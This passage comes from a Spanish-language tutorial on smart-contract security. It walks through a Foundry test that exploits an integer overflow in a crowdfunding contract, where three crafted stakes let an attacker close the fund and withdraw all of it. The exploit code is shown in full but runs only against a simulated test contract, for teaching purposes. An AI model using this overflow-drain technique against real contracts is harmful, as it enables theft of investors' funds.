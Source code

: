 ```solidity
  console.log(unicode"| => Funds on stake (crowdfund's balance) : 👀 %s * FINNEY", crowdfundContract.getTotalStake()/(1 * DECIMALS));
  console.log(unicode"| => Attacker's balance                   : 👀 %s * FINNEY\n", address(attacker1).balance/(1 * DECIMALS));
  console.log("-------------------------------------------------------------------------------"); 

  console.log(unicode"\n\t\t\t💥💥💥💥 EXPLOITING... 💥💥💥💥\n"); 

  exploit();

  console.log("-------------------------------------------------------------------------------\n"); 
  console.log(unicode"| => Funds on stake (crowdfund's balance) : ☠  %s * FINNEY", crowdfundContract.getTotalStake()/(1 * DECIMALS));
  console.log(unicode"| => Attacker's balance                   : 💯 %s * FINNEY\n", address(attacker1).balance/(1 * DECIMALS));
  console.log("-------------------------------------------------------------------------------");             
}
```

Observamos que, antes de hacer el *exploit*, se realizan stakes desde distintas cuentas. Simulando el uso del contrato por distintos usuarios. Esto es muy importante, ya que para cerrar el crowdfunding necesitamos alcanzar el `STAKE_TARGET`, y para ello necesitamos que distintos usuarios hagan stake.

Los `console.log` son simples mensajes que se muestran en la terminal al ejecutar el test. Nos ayudan a entender qué está pasando en cada momento.

Ahora echemos un vistazo al *exploit* que comentamos anteriormente:

```solidity
function exploit() internal {
  vm.startPrank(attacker1);

  crowdfundContract.stake{value: 100 * DECIMALS}();
  crowdfundContract.stake{value: 100 * DECIMALS}();
  crowdfundContract.stake{value: 57 * DECIMALS}();

  crowdfundContract.closeFund();
  crowdfundContract.withdraw();

  vm.stopPrank();
}
```

Mediante el *cheatcode* de Foundry `vm.startPrank(attacker)`, indicamos que todas las transacciones que se realicen antes de la instrucción `vm.stopPrank()` se harán siendo `attacker` el `msg.sender`.

Tal y como hemos comentado, el *exploit* consiste en realizar tres stakes, de 100 finney, 100 finney y 57 finney. En el último stake se produce el desbordamiento, consiguiendo que `stakes[attacker] == 1`. Posibilitando la llamada a `closeFund()` y la retirada del 90% de los fondos. Además, podremos llamar a `withdraw()` y retirar el 10% restante ya que también somos el `LeadInvestor`.

